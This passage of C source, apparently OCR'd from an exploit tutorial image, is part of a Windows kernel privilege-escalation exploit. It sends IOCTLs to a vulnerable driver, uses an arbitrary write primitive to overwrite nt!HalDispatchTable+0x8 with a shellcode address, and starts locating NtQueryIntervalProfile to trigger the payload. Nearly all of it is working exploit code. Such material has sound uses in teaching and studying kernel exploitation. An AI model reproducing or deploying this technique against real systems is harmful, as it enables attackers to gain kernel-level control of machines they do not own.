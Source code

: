 ```c
              sizeof(inBuf14),
              &inBuf14,
              sizeof(inBuf14),
              &bytesReturned14,
              NULL
            );

            // Error handling
            if (!interact13)
            {
              printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
            }
            else
            {
              // Last member of read array should contain preserved nt!HalDispatchTable+0x8 value
              unsigned long long preservedHal = inBuf14[3];

              printf("[+] Preserved nt!HalDispatchTable+0x8 value: 0x%llx\n", preservedHal);

              // Leveraging arbitrary write primitive to overwrite nt!HalDispatchTable+0x8
              // Buffer to send to the driver (write primitive)
              unsigned long long inBuf15[4];

              // Values to send
              unsigned long long one15 = 0x4141414141414141;
              unsigned long long two15 = halDispatch;
              unsigned long long three15 = 0x0000000000000000;
              unsigned long long four15 = shellcodeLocation;

              // Assign the values
              inBuf15[0] = one15;
              inBuf15[1] = two15;
              inBuf15[2] = three15;
              inBuf15[3] = four15;

              // Interact with the driver
              DWORD bytesReturned15 = 0;

              BOOL interact14 = DeviceIoControl(
                driverHandle,
                IOCTL_WRITE_CODE,
                &inBuf15,
                sizeof(inBuf15),
                &inBuf15,
                sizeof(inBuf15),
                &bytesReturned15,
                NULL
              );

              // Error handling
              if (!interact14)
              {
                printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
              }
              else
              {
                printf("[+] Successfully overwrote the pointer at nt!HalDispatchTable+0x8!\n");

                // Locating nt!NtQueryIntervalProfile
                NtQueryIntervalProfile_t NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(
```